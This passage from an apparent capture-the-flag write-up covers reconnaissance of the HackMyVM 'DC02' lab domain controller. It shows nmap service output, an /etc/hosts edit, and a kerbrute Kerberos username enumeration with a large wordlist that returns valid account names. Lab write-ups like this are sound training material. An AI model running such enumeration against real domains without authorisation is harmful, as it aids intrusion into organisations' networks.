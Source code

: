 ```bash
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: DC01, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27:49:99:a0 (Oracle VirtualBox virtual NIC)
| smb2-time: 
|   date: 2024-10-13T05:14:42
|_  start_date: N/A
|_clock-skew: 9h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.06 seconds
```

We can see that the target runs a Kerberos, a DNS, and an LDAP server that is typic to a Windows domain controller. The scan result reveals the domain name of the target, we can add this domain to our `/etc/hosts` file.
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/DC02/Scans/Service]
└─$ echo "10.0.2.32\tSOUPEDECODE.LOCAL DC01.SOUPEDECODE.LOCAL" | sudo tee -a /etc/hosts
10.0.2.32       SOUPEDECODE.LOCAL DC01.SOUPEDECODE.LOCAL
```

The target doesn't have an SMB null session nor LDAP anonymous log in enabled. We can use a wordlist containing common usernames to enumerate possible usernames in the domain by leveraging Kerberos authentication.
```bash
┌──(pentester㉿kali)-[~/…/HackMyVM/DC02/Scans/AD Enumeration]
└─$ kerbrute userenum -d SOUPEDECODE.LOCAL -t 50 --dc DC01.SOUPEDECODE.LOCAL  /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -o valid_user.txt
<SNIP>

2024/10/13 09:11:27 >  Using KDC(s):
2024/10/13 09:11:27 >   DC01.SOUPEDECODE.LOCAL:88

2024/10/13 09:11:27 >  [+] VALID USERNAME:       admin@SOUPEDECODE.LOCAL
2024/10/13 09:11:27 >  [+] VALID USERNAME:       charlie@SOUPEDECODE.LOCAL
2024/10/13 09:11:27 >  [+] VALID USERNAME:       Charlie@SOUPEDECODE.LOCAL
2024/10/13 09:11:27 >  [+] VALID USERNAME:       administrator@SOUPEDECODE.LOCAL
2024/10/13 09:11:27 >  [+] VALID USERNAME:       Admin@SOUPEDECODE.LOCAL
2024/10/13 09:11:30 >  [+] VALID USERNAME:       Administrator@SOUPEDECODE.LOCAL
2024/10/13 09:11:30 >  [+] VALID USERNAME:       CHARLIE@SOUPEDECODE.LOCAL
2024/10/13 09:11:39 >  [+] VALID USERNAME:       ADMIN@SOUPEDECODE.LOCAL
2024/10/13 09:13:36 >  [+] VALID USERNAME:       wreed11@SOUPEDECODE.LOCAL
2024/10/13 09:18:13 >  [+] VALID USERNAME:       printserver@SOUPEDECODE.LOCAL
2024/10/13 09:22:50 >  [+] VALID USERNAME:       kleo2@SOUPEDECODE.LOCAL    
2024/10/13 09:27:41 >  [+] VALID USERNAME:       dc01@SOUPEDECODE.LOCAL
2024/10/13 09:30:52 >  [+] VALID USERNAME:       aDmin@SOUPEDECODE.LOCAL
2024/10/13 09:32:40 >  [+] VALID USERNAME:       ChArLiE@SOUPEDECODE.LOCAL
2024/10/13 09:32:42 >  [+] VALID USERNAME:       CHarlie@SOUPEDECODE.LOCAL    
2024/10/13 09:33:30 >  Done! Tested 8295455 usernames (15 valid) in 1323.122 seconds

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC02/Scans/AD Enumeration]
└─$ cat valid_user.txt | grep @  | cut -d " " -f8 | cut -d '@' -f1 | while read a; do echo ${a,,} >> valid_user_lowercase.txt;done 

```